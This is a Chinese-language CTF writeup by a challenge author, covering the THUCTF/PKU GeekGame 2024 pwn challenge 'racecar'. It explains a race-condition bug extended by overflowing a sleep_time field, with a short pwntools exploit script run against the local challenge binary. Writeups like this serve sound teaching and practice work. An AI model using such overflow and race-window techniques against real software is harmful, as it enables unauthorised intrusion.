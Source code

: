 ```yaml
---
date: 2024-10-19 10:29:05
layout: post
title: THUCTF&PKUGeekGame2024 Writeup - PWN
subtitle: 出题人 pwn 方向 writeup
description: >-
    非常好校赛，爱来自 rosayxy
image: >-
  /assets/img/uploads/night.jpg
optimized_image: >-
  /assets/img/uploads/night.jpg
category: ctf
tags:
  - thuctf
  - race condition
  - pwn
author: rosayxy
paginate: true
---
```

先引流一个官方 writeup [仓库](https://github.com/PKU-GeekGame/geekgame-4th) ~    
校赛出了 racecar 和 rtree 两个题，是心心念念的 toctou 和 libc 2.31 uaf ~ 以及第一次认真写了题面hhh ~ 编故事还是挺好玩的（    
本博客题解部分和仓库里一样，只是多了一些碎碎念hhh(逃)   
## racecar
一个入门题，一开始在想要不要溢出 size 和 sleep_time 两处，想想还是只 time 溢出就行，但是要把 time 改大hhh ~    
非常简单，瞎打打应该就可以出   
但是有一点遗憾hhh ~ 之前和轩哥讨论出题的时候轩哥说交互方式可以改进一下，就两个线程分别监听两个端口，然后分别 nc 去连接，就不会出现现在这个有点乱的输出了，而且也更加 realworld 一点 ~ 但是因为当时时间不够就没加，ggg    
还有大感谢轩哥提供的溢出 sleep_time 控时间窗口的灵感hhh ~    
### exp
```py
from time import sleep
from pwn import *

p = process("../src/race")
context(os="linux", arch="amd64", log_level="debug")
sleep(0.2)

p.sendline("1")
p.recvuntil("content to read to buffer (max 0x100 bytes): \n")
payload = b"a" * 0x30 + b"\x40"
payload = payload.ljust(0x100, b"\x00")
payload += p32(1000)
p.send(payload)
p.sendline(str(0x31))
p.sendline(str(0x31))

p.interactive()

```
